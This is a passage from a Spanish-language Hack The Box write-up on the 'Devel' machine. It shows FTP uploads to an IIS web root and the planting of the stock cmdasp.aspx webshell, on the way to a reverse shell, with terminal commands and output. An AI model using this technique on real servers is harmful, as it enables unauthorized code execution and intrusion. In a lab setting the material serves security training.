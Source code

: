 ```bash
❯ catn test.htm
<html>
<body>
	<pre>Test</pre>
</body>
</html>
```

```bash
ftp> put test.htm
local: test.htm remote: test.htm
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
51 bytes sent in 0.00 secs (1.0573 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
08-29-21  12:32AM                   51 test.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Accediendo al recurso http://10.10.10.5/test.htm observamos nuestro código subido, por lo que los archivos que subamos por FTP se encuentran asociados al sitio web. Ahora, sabiendo que IIS maneja archivos de extensión **aspx**, podemos crear un archivo con dicha extensión que nos entable una reverse shell hacia nuestro equipo de atacante. Se podría pensar en generar un archivo PHP; sin embargo, con `whatweb` o el plugin *wappalyzer* no observamos que el servidor nos pueda interpretar código php.

![](/assets/images/htb-devel/devel-test.png)

Primero, buscamos archivo en nuestro sistema que nos puedan ayudar:

```bash
❯ locate webshell | grep asp
/usr/share/webshells/asp
/usr/share/webshells/asp/cmd-asp-5.1.asp
/usr/share/webshells/asp/cmdasp.asp
/usr/share/webshells/aspx
/usr/share/webshells/aspx/cmdasp.aspx
```

Para este caso utilizaremos el archivo `cmdasp.aspx`, por lo que lo subimos al servidor:

```bash
ftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (35.2615 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
08-29-21  12:56AM                 1442 cmdasp.aspx
03-17-17  05:37PM                  689 iisstart.htm
```